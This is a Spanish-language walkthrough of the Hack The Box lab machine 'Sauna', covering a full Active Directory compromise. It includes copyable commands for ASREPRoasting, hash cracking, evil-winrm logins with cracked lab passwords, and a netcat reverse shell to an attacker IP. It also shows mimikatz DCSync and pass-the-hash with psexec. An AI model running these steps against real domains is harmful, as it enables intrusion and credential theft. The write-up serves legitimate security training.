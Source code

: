 # Sauna

**OS**: Windows \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- Enumeracion de usuarios
- ASREPRoast (GetNPUsers)
- Cracking Kerberos hash
- Default Credentials
- BloodHound
- DCSync Attack

## Nmap Scan

`nmap -sV -sC 10.10.10.175`

```
# Nmap 7.80 scan initiated Mon Feb 17 18:43:38 2020 as: nmap -sV -sC -oA nmap/sauna 10.10.10.175
Nmap scan report for 10.10.10.175
Host is up (0.18s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-02-18 07:45:37Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/17%Time=5E4B2552%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h01m22s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-18T07:48:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 17 18:49:23 2020 -- 1 IP address (1 host up) scanned in 345.16 seconds
```

## Enumeración

Enumeramos el servicio web que corre en el puerto **80** y nos dirigimos a la ruta **/about.html**, se pueden ver nombres de posibles usuarios en el sistema.

![1](images/1.png)

Tomando como referencia este [articulo](https://activedirectorypro.com/active-directory-user-naming-convention/) generamos una lista de usuarios.

##### usernames.txt

```
fsmith
scoins
hbear
btaylor
sdriver
skerb
f.smith
s.coins
h.bear
b.taylor
s.driver
s.kerb
```

Con esta lista de usuarios podemos intentar un ataque **ASREPRoast** para obtener hashes de Kerberos de algún usuario que no requiera pre-autenticación. Nos apoyaremos de la herramienta **GetNPUsers.py** de **impacket**.

> El ataque ASREPRoast se basa en encontrar usuarios que no requieren pre-autenticación de Kerberos. Lo cual significa que cualquiera puede enviar una petición AS_REQ en nombre de uno de esos usuarios y recibir un mensaje AS_REP correcto. Esta respuesta contiene un pedazo del mensaje cifrado con la clave del usuario, que se obtiene de su contraseña.

`python GetNPUsers.py EGOTISTICALBANK/ -usersfile ~/htb/Box/Windows/Sauna/usernames.txt -dc-ip 10.10.10.175`

![2](images/2.png)

Se puede visualizar que nos regresa el hash del usuario **fsmith** el cual procederemos a intentar obtener su password en texto plano con la herramienta **john**.

`sudo john fsmith_hash.txt -wordlist=/usr/share/wordlists/rockyou.txt`

![3](images/3.png)

Utilizamos **evil-winrm** para obtener una shell.

`evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'`

![4](images/4.png)

## Escalada de Privilegios (User)

Usaremos **PowerUp.ps1** para encontrar alguna forma de escalar privilegios. **evil-winrm** nos permite subir archivos al sistema con la opción **-s**, la cual sera muy util.

- `evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23' -s priv/`
- `upload priv/PowerUp.ps1`

Importamos el modulo y ejecutamos.

- `Import-Module ./PowerUp.ps1`
- `Invoke-AllChecks`

![5](images/5.png)

Podemos ver credenciales por default del usuario **svc_loanmanager**. Si revisamos los usuarios existentes en el sistema no aparace pero existe un usuario similar llamado **svc_loanmgr**.

`net user`

![6](images/6.png)

Utilizamos **evil-winrm** para obtener shell.

`evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!' -s priv/`

![7](images/7.png)

## Escalada de Privilegios (Administrator)

Nos apoyaremos de una herramienta llamada **BloodHound** para recolectar información del Directorio Activo. Subiremos el archivo llamado **SharpHound.ps1** para obtener la información y posteriormente descargar el **.zip** generado por el script con ayuda de **evil_winrm**.

- `upload priv/SharpHound.ps1`
- `Import-Module ./SharpHound.ps1`
- `Invoke-BloodHound -CollectionMethod All`
- `download 20200522204259_BloodHound.zip`

![8](images/8.png)

Teniendo ya el archivo zip lo abrimos con bloodhound. 

> Es necesario levantar el servido **neo4j** para utilizar bloodhound. Solo se arrastra el archivo zip a la interfaz grafica de bloodhound. \
 `sudo neo4j console` \
 `bloodhound`

![9](images/9.png)

Si nos vamos a la opcion **Queries / Find Principals with DCSync Rights** podemos ver que el usuario **svc_loanmgr** pude desempeñar un ataque de **DCSync**.

> DCSync es un comando dentro de Mimikatz que un atacante puede aprovechar para simular el comportamiento del controlador de dominio (DC). De manera más simple, permite al atacante simular ser un controlador de dominio y solicitar a otros DC datos de contraseña de usuario.

Ya que **evil-winrm** no nos permite ejecutar correctamente **mimikatz**, creamos una reverse shell con **nc**.

- `upload priv/nc.exe`
- `upload priv/mimikatz.exe`

Ponemos a la escucha nuestro netcat y ejecutamos el comando.

- `rlwrap nc -lvnp 1234`
- ` .\nc.exe -e cmd.exe 10.10.14.248 1234`

![10](images/10.png)

Procedemos a ejecutar **mimikatz** para explotar **DCSync**.

`lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator`

![11](images/11.png)


Podemos ver que nos arroja el **NTLM** hash del usuario **Administrator**. Utilizando **lm:ntlm** podemos obtener shell con ayuda de **psexec**.

`python psexec.py Administrator@10.10.10.175 -hashes ee8c50e6bc332970a8e8a632488f5211:d9485863c1e9e05851aa40cbb4ab9dff`

![12](images/12.png)


## Referencias
https://activedirectorypro.com/active-directory-user-naming-convention/ \
https://www.tarlogic.com/blog/como-atacar-kerberos/ \
https://github.com/SecureAuthCorp/impacket \
https://github.com/Hackplayers/evil-winrm \
https://github.com/BloodHoundAD/BloodHound \
https://github.com/gentilkiwi/mimikatz \
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-mimikatz-dcsync
